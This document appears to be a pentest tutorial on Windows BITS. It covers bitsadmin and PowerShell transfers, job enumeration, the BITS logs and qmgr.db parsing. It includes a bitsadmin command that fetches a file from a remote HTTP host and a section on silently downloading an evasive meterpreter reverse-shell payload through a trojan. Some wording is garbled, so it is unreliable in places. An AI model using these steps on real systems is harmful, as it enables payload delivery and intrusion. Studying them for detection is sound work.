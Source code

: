 ### Introduction to BITS: 

BITS stands for Background Intelligent Transfer Service and is a widely used service for downloading files from or to HTTP web servers and SMB file sharing. BITS is sufficiently autonomous to reduce the costs as much as possible to be as optimized as possible for the user or the programmer because yes BITS can also be useful in programming, BITS is programmable in C/C++ and can be called in .NET all that thanks to COM.
BITS has a CLI version called BitsAdmin and commands included in the powershell. BITS can be used for administration with logging systems from actions like /transfer or SANP protocols (notification protocols) for example: `SetNotifyFlag`. In pentest, BITS is very used for EOAP (Exfiltration over Alternative Protocol).
Use of bitsadmin and analysis of traffics:

``powershell
bitsadmin /transfer howtohack http://192.168.1.45:8000/ak.txt "C:\Users\hth\Documents\ak.txt"
```

- DISPLAY**: job name
- FILE**: number of files
- BYTES**: size of the "c hack" file
- PRIORITY**: corresponds to the order of download
- STATE**: Transferred, state of the job.

you can also use it with the PowerShell modules: `BitsTransfer`
``powershell
Import-Module BitsTransfer
```

BITS supports asynchronous transfer by default but you can specify via the `-Asychronous` argument, for the file validation you have to use `Complete-BitsTransfer`.
Downloading a meterpreter reverse shell silently: 

![image](https://user-images.githubusercontent.com/75935486/152225631-6de1bd82-5dc8-4ac3-b861-a73634d4fe45.png)

start the HTTP server and download the evasive payload via BITS asynchronously. In the context of mass contamination, we can make the download automatic in C or C++ in a third party Trojan, but in the educational context we stay in simple things.


#### BITSAdmin enumeration: 

``powershell
# listed jobs
bitsadmin /list
# get more info on a job
bitsadmin /info 482FCAF0-74BF-469B-8929-5CCD028C9499 /verbose
# manage the current jobs
bitsadmin /monitor
# only one job to manage
bitsadmin /monitor 482FCAF0-74BF-469B-8929-5CCD028C9499
# complete info (Notify, Proxy, GUID...) on all active jobs:
bitsadmin /info
```

BITS logs : `C:\Windows\System32\winevt\Logs\Microsoft-Windows-Bits-Client%4Operational`

![image](https://user-images.githubusercontent.com/75935486/152225800-497abaf1-1545-48b0-903e-9d87c51242f6.png)


#### BITS Enumeration from SC queries and from the QMGR & ESE db: 

QMGR stands for Querie Manager, it records every activity of every BITS Job in a database but it's encrypted, you have to use hex editor or other database editor16 to hope to dump something.
here what we are interested in is QMGR.db because it's where the BITS Job info is logged

![image](https://user-images.githubusercontent.com/75935486/152225890-df0b4a93-7476-4513-bd75-b470dc0752a3.png)

``json
> python BitsParser.py -i qmgr.db
Processing file qmgr.db
{
    "JobType": "download",
    "JobPriority": "normal",
    "JobState": "suspended",
    "JobId": "b733e5e1-12ad-463e-a125-ade26cc1fab6",
    "JobName": "SpeechModelDownloadJob",
    "OwnerSID": "S-1-5-20",
    "Owner": "NT AUTHORITY\NETWORK SERVICE",
    "CreationTime": "2021-01-25T11:52:05Z",
    "ModifiedTime": "2021-01-25T12:45:21Z"
}
```

#### Pesistence with BITS : 

Raising the download priority. `/priority high`

Windows BITS compromises:
- https://www.secureworks.com/blog/malware-lingers-with-bits

C++/C/.NET development with BITS integration: 
- https://docs.microsoft.com/en-us/windows/win32/bits/using-bits

